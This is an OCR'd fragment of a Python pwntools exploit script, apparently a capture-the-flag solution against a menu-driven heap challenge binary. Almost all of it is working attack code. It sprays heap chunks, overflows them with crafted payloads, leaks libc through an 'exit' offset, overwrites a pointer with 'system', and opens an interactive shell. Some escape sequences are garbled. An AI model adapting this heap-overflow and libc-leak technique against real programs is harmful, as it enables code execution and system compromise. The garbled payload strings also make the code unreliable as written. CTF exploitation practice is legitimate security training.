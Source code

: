 ```
    p.sendline("3")
    p.recvuntil("input a id to edit")
    p.sendline(str(idx))
    p.recvuntil("option:")
    p.sendline(str(opt))
    p.recvuntil("name")
    p.sendline(str(ll))
    p.recvuntil("name")
    p.sendline(name)
'''exit_off = 0x3a030
one_off = 0x4526a
hook_off = 0x3c4b10'''
exit_off = 0x000000000003a030
one_off= 0x4526a
system_off = 0x0000000000045390
def pwn():
    for x in xrange(100):
        add(4096,'deadbeef',4096,'deadbeef','no')
    add(16,'leakinfo',16,'leakinfo','yes')
    add(200,'AAAAAAAA',200,'aaaaaaaa','yes')
    add(200,'BBBBBBBB',200,'bbbbbbbb','yes')
    add(200,'CCCCCCCC',200,'cccccccc','yes')
    add(200,'DDDDDDDD',200,'aaaaaaaa','yes')
    add(200,'EEEEEEEE',200,'bbbbbbbb','yes')
    add(200,'FFFFFFFF',200,'cccccccc','yes')
    payload = 'A'*440+p64(0x41)+p64(0x69)+p64(0x60F03f)+p64(0)+p64(0x400954)+p64(0x0602FF0)+p32(49231)
    edit(104,1,500,payload)
    edit(105,1,25,'AAAAAAAAA/bin/shx00AAAAAAAA')
    payload = 'A'*440+p64(0x41)+p64(0x6d)+p64(0x602ff0)+p64(0xc04f)+p64(0x400954)+p64(0x602ff0)+'x4fxc0'
    add(200,"HHHHHHHH",200,'hhhhhhhh','yes')
    add(200,'IIIIIIII',200,'iiiiiiii','yes')
    add(200,'KKKKKKKK',200,'kkkkkkkk','yes')
    add(200,'LLLLLLLL',200,'llllllll','yes')
    edit(107,1,500,payload)
    p.recvuntil("option:")
    p.sendline("4")
    p.recvuntil("input a id to intro")
    p.sendline('108')
    p.recvuntil("from ")
    data = p.recvn(6)
    libc = u64(data.ljust(8,'x00'))-exit_off
    one = libc+one_off
    system =libc +system_off
    print "libc address is "+hex(libc)
    print pidof(p)
    raw_input()
    payload = 'A'*440+p64(0x41)+p64(0x6d)+p64(0x60f048)+p64(8)+p64(system)+p64(0x602ff0)+'x4fxc0'
    edit(109,1,500,payload)
    p.recvuntil("option:")
    p.sendline("4")
    p.recvuntil("intro")
    p.sendline('110')
    p.interactive()
pwn()
```
